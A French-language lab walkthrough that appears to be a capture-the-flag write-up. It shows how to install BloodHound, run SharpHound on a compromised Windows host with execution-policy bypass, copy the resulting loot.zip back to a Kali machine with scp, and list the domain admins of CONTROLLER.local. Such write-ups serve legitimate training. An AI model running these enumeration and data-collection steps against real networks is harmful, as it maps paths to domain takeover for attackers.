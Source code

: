 Installons BloodHound et laçons la base de données :

```sh
sudo apt-get install bloodhound
sudo neo4j console
```

Lors du premier lancement, on doit enregistrer un nouveau mot de passe, par défaut les creds sont `neo4j:neo4j`.
Lançons SharpHound sur la victime :

```sh
PS C:\Users\Administrator> powershell -ep bypass
PS C:\Users\Administrator> . .\Downloads\SharpHound.ps1
PS C:\Users\Administrator> Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip
-----------------------------------------------
Initializing SharpHound at 4:22 AM on 8/17/2020
-----------------------------------------------

Resolved Collection Methods: Group, Sessions, LoggedOn, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container

[+] Creating Schema map for domain CONTROLLER.LOCAL using path CN=Schema,CN=Configuration,DC=CONTROLLER,DC=LOCAL
PS C:\Users\Administrator> [+] Cache File not Found: 0 Objects in cache

[+] Pre-populating Domain Controller SIDS
Status: 0 objects finished (+0) -- Using 100 MB RAM
Status: 66 objects finished (+66 66)/s -- Using 105 MB RAM
Enumeration finished in 00:00:01.5347735
Compressing data to C:\Users\Administrator\20200817042237_loot.zip
You can upload this file directly to the UI

SharpHound Enumeration Completed at 4:22 AM on 8/17/2020! Happy Graphing!
```

Il faut alors récupérer sur notre machine le fichier généré avec scp :

```sh
kali@kali:scp -r -p Administrator@10.10.169.215:'C:\Users\Administrator\20200817042237_loot.zip' loot.zip
```

Lançons Bloodhound :

```sh
kali@kali:~/Documents$ sudo bloodhound
```

Le logiciel s'ouvre, il faut glisser-déposer `loot.zip` dans BloodHound pour importer les données.
Puis, dans le menu dérouland (en haut à droite) cliquer sur `Query`. On peut alors faire des requêtes :

Les domain admins :

- SQLSERVICE@CONTROLLER.LOCAL
- ADMIN2@CONTROLLER.LOCAL
- ADMINISTRATOR@CONTROLLER.LOCAL
